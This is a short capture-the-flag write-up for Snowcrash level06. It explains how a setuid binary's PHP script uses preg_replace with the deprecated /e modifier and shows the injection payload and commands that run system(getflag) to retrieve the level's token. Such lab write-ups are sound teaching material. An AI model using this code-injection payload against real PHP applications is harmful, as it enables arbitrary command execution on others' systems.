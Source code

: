 # <center>Snowcrash level06</center>

# Explanations

<br/>

## On VM:
> $ ls -l
>>-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06<br/>
>>-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

> $ ./level06
>> PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

- The binary level06 uses the php script to read the content of a file and filter it with regex.
- The function preg_replace($pattern, $replacement, $string) uses /e which is deprecated. 
- This modifier /e executes $string as a php script after apply pattern. https://wiki.php.net/rfc/remove_preg_replace_eval_modifier
- We will be able to inject commands with the system() function after creating a line that passes the regex. 

> $ echo '[x {${system(getflag)}}]' > /tmp/script <br/>
> $ ./level06 /tmp/script
>>PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1<br/>
>>Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub<br/>
>>PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1

